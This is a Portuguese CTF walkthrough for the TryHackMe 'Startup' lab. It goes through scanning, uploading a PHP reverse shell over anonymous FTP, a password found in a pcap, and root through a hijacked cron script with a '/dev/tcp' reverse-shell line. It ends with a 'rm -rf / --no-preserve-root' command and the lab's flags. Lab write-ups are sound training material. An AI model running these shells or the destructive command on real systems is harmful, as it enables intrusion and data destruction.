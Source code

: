 CTF STARTIUP 

Ao gerar o ip dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrava-se 3 portas(ftp 21, tcp 22, tcp 80)

sendo o ftp anonymous era so entrar...

    ftp ip
    username: anonymous
    pass: no pass

3 arquivos

    ftp
    notice.txt
    important.jpg

Ao ler o notice.txt encontrava-se um possivel username Maya

Ao baixar a imagem e abri-la tinha um meme do among us...

    get important.jpg

Ao dar um gobuster para encontravar diretorios

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

encontrava o /files que resultava no mesmo arquivo do ftp...

assim era so pegar um webshell, usei o do pentestmokey 

    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Criei um arquivo no kali chamado shellphp.php 

    nano shellphp.php

Modifiquei o ip e a porta que e solicitado no codigo

e coloquei na pasta ftp

    put shellphp.php

Assim eu fiz o netcat

    nc -nvlp 1333

Ao abrir o IP/files/ftp cliquei para rodar esse codigo assim conseguindo acesso ao www-data

Conseguindo acesso a 1 flag do desafio "recipe.txt"

    cat recipe.txt

    Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
    
Procurando pelo sistema encontrei uma pasta chamado incidents ao dar um cd nessa pasta tinha um arquivo chamado

    suspicious.pcapng

Ao baixa-lo

    get suspicious.pcapng /var/www/html/files/ftp

Abrindo esse arquivo automaticamente abria o Wireshark um aplicativo de analise de rede

Olhando no Wireshark notei que ele mostrava alguns diretorios root, selecionei a opcao follow tcp e la dentro tenha uma requisicao da senha do www-data

    senha www-data c4ntg3t3n0ughsp1c3

Sendo essa a senha do www-data e como dentro do /home tinha um usuario chamado lennie era so fazer a conexao ssh com o user lennie

    ssh lennie@IP
    pass: c4ntg3t3n0ughsp1c3

Assim sendo possivel acessar a 2 flag "user.txt"

    cat user.txt
    THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

Ainda no usuario lennie tinha uma pasta chamada scripts ao abrir tinha um aquivo .sh

    planner.sh

O "planner.sh" executava um arquivo root dentro dele e tinha sua rota

    /etc/print.sh

Esse arquivo executava como root, sendo assim era so pegar uma reverse shell para conseguir ter acesso 

    https://www.revshells.com/

assim criando uma shell sh e modificando o arquivo "print.sh" com esse script

Script

    sh -i >& /dev/tcp/IPTRYHACKME/1333 0>&1

NetCat

    nc -nvlp 1333

Assim tendo acesso a pasta root que tinha o arquivo "root.txt"

    cat root.txt
    THM{f963aaa6a430f210222158ae15c3d76d}

Assim finalizando o desafio..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    Flag 1: love
    Flag 2: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
    Flag 3: THM{f963aaa6a430f210222158ae15c3d76d}

